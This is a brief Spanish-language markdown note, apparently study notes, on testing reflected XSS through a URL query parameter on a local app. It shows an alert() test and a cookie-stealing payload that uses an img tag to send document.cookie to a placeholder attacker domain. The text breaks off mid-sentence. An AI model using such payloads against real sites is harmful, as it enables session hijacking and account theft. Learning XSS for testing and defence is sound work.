 ## XSS

Probar XSS desde la URL -> por ejemplo tengo lo siguiente:

```sh
url: localhost:3000/?name=[esto recibe un valor]
```

Pero le podemos pasar el siguiente:
```sh
url: localhost:3000/?name=<script>alert('hola')</script>
```

Esto nos devolverá un alert diciendo "hola" 

Otro ejemplo es que se encuentra en el archivo virus:

```html
<script>document.write('<img src="http://<aca le pasas tu dominio>?c='+document.cookie+'" />')</script>

<!-- como también le puedes pasar una -->
```

